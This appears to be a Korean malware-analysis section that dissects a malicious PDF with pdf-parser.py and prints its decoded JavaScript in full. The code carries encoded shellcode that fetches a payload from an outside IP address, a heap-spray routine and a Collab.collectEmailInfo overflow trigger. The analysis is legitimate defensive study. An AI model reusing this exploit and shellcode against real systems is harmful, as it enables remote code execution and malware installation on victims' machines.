 ### 7-4 자바스크립트 분석

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/59d6f735-1727-445c-9438-7a638194251a)

`$ pdf-parser.py --object 13 --raw --filter badpdf.pdf`

obj 13을 보면 obj 1에서 확인했던 zfnvkWYOKv() 함수의 실제 스트림이 포함되어 있으며 FlateDecode 방식으로 인코딩되어 있음을 확인할 수 있음. pdf-parser에서 --filter 옵션을 사용하면 FlatDecode, ASCIIHexDecode, ASCII85Decode, LZWDecode, RunLengthDecode까지 디코딩이 가능함. 따라서 --raw --filter 옵션을 붙여주어 obj 13에 포함된 zfnvkWYOKv() 함수를 확인할 수 있음.

```javascript
function zfnvkWYOKv()
{
        gwKPaJSHReD0hTAD51qao1s = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036");

        tuVglXABgYUAQFEYVPi3lf = unescape("%u9090%u9090"); nDsGdY1TdZUDCCpNeYRdk28BeZ5R = 20 + gwKPaJSHReD0hTAD51qao1s.length
        while (tuVglXABgYUAQFEYVPi3lf.length < nDsGdY1TdZUDCCpNeYRdk28BeZ5R) tuVglXABgYUAQFEYVPi3lf += tuVglXABgYUAQFEYVPi3lf;
        vmRV3x9BCtZs = tuVglXABgYUAQFEYVPi3lf.substring(0, nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
        dVghsR4KOJoE6WzWkTW0vz = tuVglXABgYUAQFEYVPi3lf.substring(0, tuVglXABgYUAQFEYVPi3lf.length-nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
        while(dVghsR4KOJoE6WzWkTW0vz.length + nDsGdY1TdZUDCCpNeYRdk28BeZ5R < 0x40000) dVghsR4KOJoE6WzWkTW0vz = dVghsR4KOJoE6WzWkTW0vz + dVghsR4KOJoE6WzWkTW0vz + vmRV3x9BCtZs;

        dddA9SvmIp7bFVTvbRcRoFQ = new Array();

        for ( i = 0; i < 2020; i++ ) dddA9SvmIp7bFVTvbRcRoFQ[i] = dVghsR4KOJoE6WzWkTW0vz + gwKPaJSHReD0hTAD51qao1s;

        function rHjX2qS2YpWWuvNjX9JfKZ3F(qlrSKFKRQUuUXlV0ES9I6oz4pM, oq7g9J0RSV3FcMgr9DLvvDY8ee)
        {
                var lTZGviUaML2vE40mHbYk = "";

                while (--qlrSKFKRQUuUXlV0ES9I6oz4pM >= 0) lTZGviUaML2vE40mHbYk += oq7g9J0RSV3FcMgr9DLvvDY8ee;
                return lTZGviUaML2vE40mHbYk;
        }

        Collab.collectEmailInfo({msg:rHjX2qS2YpWWuvNjX9JfKZ3F(4096, unescape("%u0909%u0909"))});
}
```

